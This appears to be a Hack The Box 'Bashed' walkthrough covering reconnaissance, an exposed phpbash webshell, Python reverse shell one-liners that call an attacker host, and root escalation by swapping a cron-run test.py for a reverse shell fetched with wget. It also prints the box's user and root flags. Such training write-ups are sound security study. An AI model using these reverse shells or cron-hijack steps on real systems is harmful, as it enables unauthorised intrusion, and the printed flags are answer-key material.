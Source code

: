 ## Reconnaissance

### nmap 
```
nmap -sV -sC -oA bashed 10.129.228.101
```

![](./IMG/0.png)
### website

![](./IMG/1.png)

### Path Enumeration

```
gobuster dir -u http://10.129.228.101 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![](./IMG/2.png)
> The most interesting path is 

```
/dev
```

> Check it 

![](./IMG/3.png)

> Access following php page
```
phpbash.php
```

![](./IMG/4.png)

> I got an easy webshell with www-root user

![](./IMG/5.png)

> Try to read user flag, and I got the flag

![](./IMG/6.png)

> Get user flag 

``` 
49ab3642b3d19bb69071bb432c30ff89 
```

![](./IMG/7.png)

### Try to create reverse shell 

> Using the following python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](./IMG/8.png)
> Check the nc status, I got the reverse shell 

![](./IMG/9.png)

> Read user flag
```
49ab3642b3d19bb69071bb432c30ff89
```

![](./IMG/10.png)
## Post Exploitation 

> With the www-root user, I can get user flag.
> Now I have to get root shell
> First check sudo list to konw what's the command can be execute in this or other user

```
sudo -l
```

> I know there is a user named scriptmanager can be call without password

![](./IMG/11.png)
> So, chang to it 
``` 
sudo -u scriptmanager /bin/bash
```

![](./IMG/12.png)

> Using python to beautify the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](./IMG/13.png)

> Check the current user 

```
id
```

![](./IMG/14.png)

> So, the current user is scriptmanager now.
> Let's find out what kind of directory or file is own by this user 
> The most special results 

 1. ```/script/test.py```

```
find / -type f -user scriptmanager -group scriptmanager 2>/dev/null; find / -typd d -user scriptmanager -group scriptmanager 2>/dev/null
```

![](./IMG/15.png)

> Check script directory, 2 files
1. test.py
2. test.txt

![](./IMG/16.png)

> Check test file content

```
testing 123!
```

![](./IMG/17.png)

> Check test python file 

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
> It will open test file and write "testing 123!" into it.

![](./IMG/18.png)

> And about the metadata on these 2 files
> I know the test file is own by root and the date is keeping changing to latest one.
> but it is created by test python, so, I think there might be a cron job to execute the python file.
> And the execute operation user is root.

![](./IMG/19.png)

> So if I can replace the origin python file to malicious one.
> The cron job will execute it with root user.
> Then I can create a reverse shell as root use.
> So, create a malicious python file first.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.145",1336))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](./IMG/20.png)

> Create a simple http server in attack host

```
python3 -m http.server 9797
```

> Using wget to download it from attack host to victim site.

```
wget http://10.10.17.145:9797/test.py
```

![](./IMG/21.png)

> Change the origin test python file name.

```
mv test.py test.py.2
mv test.py.1 test.py
```

![](./IMG/22.png)

> Check the nc status, it will get reverse shell

![](./IMG/23.png)

> Get root flag : 

``` 
74e298468046bdbdaa318f203a60b06c
```

![](./IMG/24.png)

## Reference 

- [(writeup)Hack The Box – Bashed Walkthrough](https://steflan-security.com/hack-the-box-bashed-walkthrough/)
- [Linux: Find command](https://www.cyberciti.biz/faq/how-do-i-find-all-the-files-owned-by-a-particular-user-or-group/)
- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

![](./IMG/25.png)

###### tags: `HackTheBox` `PHP` `Easy` `bashed` `reverse shell` `linux`